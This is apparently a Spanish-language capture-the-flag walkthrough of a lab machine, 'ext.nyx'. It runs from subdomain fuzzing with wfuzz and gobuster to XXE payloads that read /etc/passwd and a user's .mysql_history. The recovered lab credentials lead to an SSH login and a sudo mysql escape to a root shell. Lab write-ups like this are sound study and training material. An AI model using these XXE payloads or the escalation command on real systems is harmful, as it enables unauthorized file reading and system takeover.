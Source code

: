 Hacemos el reconocimiento con nmap:
![[Pasted image 20230926104210.png]]
Y en el puerto 80 vemos que no hay nada aparentemente:
![[Pasted image 20230926104349.png]]
Pero si vemos el código fuente nos encontramos con esto:
![[Pasted image 20230926104410.png]]
Añadimos el dominio en el /etc/host:
![[Pasted image 20230926104535.png]]
Y hacemos búsqueda de subdominios:
```bash
wfuzz -c -t 200 --hl 75 -w subdomains-top1million-110000.txt -H "Host: FUZZ.ext.nyx" http://ext.nyx
```
O con gobuster:
```bash
gobuster vhost -u http://ext.nyx -w subdomains-top1million-110000.txt | grep -v '400'
```
Y tenemos el subdominio administrator:
![[Pasted image 20230926105521.png]]
Lo añadimos al /etc/hosts y deberíamos poder acceder a él desde el navegador:
![[Pasted image 20230926105704.png]]
![[Pasted image 20230926105714.png]]
Ponemos unas credenciales aleatorias e interceptamos con burp suite la petición, donde vemos que poder estar ante un XML External Entity:
![[Pasted image 20230926105854.png]]
Le ponemos el siguiente payload basándonos en el que viene por defecto:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY prueba SYSTEM "file:///etc/passwd"> ]>
<details>
<email>
&prueba;
</email>
<password>1234</password>
</details>
```
Vemos que hay un usuario llamado mysql:
![[Pasted image 20230926124527.png]]
Por lo que podemos intentar apuntar contra el mysql.history:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY prueba SYSTEM "file:///home/admin/.mysql_history"> ]>
<details>
<email>
&prueba;
</email>
<password>1234</password>
</details>
```
![[Pasted image 20230926124604.png]]
Y tenemos las siguientes credenciales:
```bash
root:r00tt00rDB
```
Iniciamos sesión con estas credenciales y vemos que funciona bien:
![[Pasted image 20230926125018.png]]
![[Pasted image 20230926125032.png]]
Y vemos la contraseña del usuario admin:
![[Pasted image 20230926125108.png]]
```bash
admin:4dminDBS3cur3P4ssw0rd123
```
Y con esta contraseña entramos correctamente por ssh:
![[Pasted image 20230926125555.png]]
Y si ejecutamos el comando sudo -l vemos cómo podemos ejecutar como sudo mysql:
![[Pasted image 20230926125756.png]]
Buscamos en gtfobins como explotar esto y lo hacemos, pero nos pedirá que pongamos la contraseña de la base de datos nuevamente:
```bash
sudo /usr/bin/mysql -e '\! /bin/sh' -p
r00tt00rDB
```
![[Pasted image 20230926125910.png]]
